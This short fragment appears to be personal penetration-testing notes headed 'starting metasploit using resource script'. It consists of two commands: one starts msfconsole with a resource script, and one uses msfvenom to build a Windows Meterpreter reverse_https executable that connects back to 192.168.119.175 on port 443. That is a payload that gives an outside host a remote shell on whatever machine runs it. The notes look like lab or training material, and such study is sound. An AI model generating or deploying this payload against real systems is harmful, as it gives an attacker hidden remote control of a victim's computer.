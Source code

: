 starting metasploit using resource script

```

sudo msfconsole -r setup.rc

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.175 LPORT=443 -f exe -o met.exe

```
